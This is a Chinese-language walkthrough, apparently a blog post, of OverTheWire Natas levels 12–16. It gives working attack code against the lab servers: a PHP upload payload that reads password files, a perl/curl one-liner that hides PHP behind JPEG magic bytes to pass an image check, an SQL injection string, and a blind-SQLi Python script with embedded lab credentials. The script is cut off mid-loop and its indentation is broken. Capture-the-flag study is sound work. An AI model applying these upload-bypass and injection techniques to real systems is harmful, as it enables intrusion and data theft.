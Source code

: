 
*   **natas12**  
    上传文件 
    <pre>
    &lt;?php include('/etc/natas_webpass/natas13'); ?&gt;
    </pre>
    
    用burp截获，更改后缀。得到密码

*   **natas13**  
    这次会用`exif_imagetype`做检查。查了下jpeg文件的格式，是以`\xff\xd8`开始，`\xff\xd9`结束，中间包含许多segments,每一个都是以`\xff`开始 
    于是我们用一个包含payload的文件，文件开始和结束处符合jpeg的magic number, 访问上传文件可得密码
    
{% highlight bash %}
perl -e 'print "\xff\xd8\xff" . "<?php include(\"/etc/natas_webpass/natas14\"); ?>" . "\xff\xd9"' | curl \
-su natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY -F filename=1.php -F 'uploadedfile=@-;filename=1.php' \
http://natas13.natas.labs.overthewire.org
{% endhighlight %}
    
*   **natas15**  
    SQL注入，username输入`" or 1=1-- `，得到密码

*   **natas16**  
    SQL盲注，代码如下, 第一次试的时候，大小写全反了。检查后发现在mysql里，有`"W">"k"`，这和我想象中不同，我想的是用ascii的值比较的 
{% highlight python %}
#!/usr/bin/env python2

import urllib
import urllib2
import base64

def makePayload(statement):
    return 'natas16" and (substr(password, %d, 1))%s"%s"#' % (statement[0], statement[1], statement[2])

def checkResponse(response):
    return response.find("This user exists.") != -1

def doAssert(statement):
    url = 'http://natas15.natas.labs.overthewire.org'
    values = {'username':makePayload(statement)}

    data = urllib.urlencode(values)
    req = urllib2.Request(url, data)

    username = "natas15"
    password = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"
    base64string = base64.encodestring('%s:%s' % (username, password)).replace('\n', '')
    req.add_header('Authorization',"Basic %s" % base64string)
    req.add_header('Content-Type','application/x-www-form-urlencoded')

    response = urllib2.urlopen(req)
    content = response.read()

    return checkResponse(content)

if __name__ == "__main__":
    alphalist = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXY"
    result = []
    for idx in range(1,33):
    start = 0
    end = len(alphalist) #[start, end)
    while (start < end):
    if (end - start == 1):
        result.append(alphalist[start])
        print alphalist[start]
        break
    else:
        middle = (start + end)/2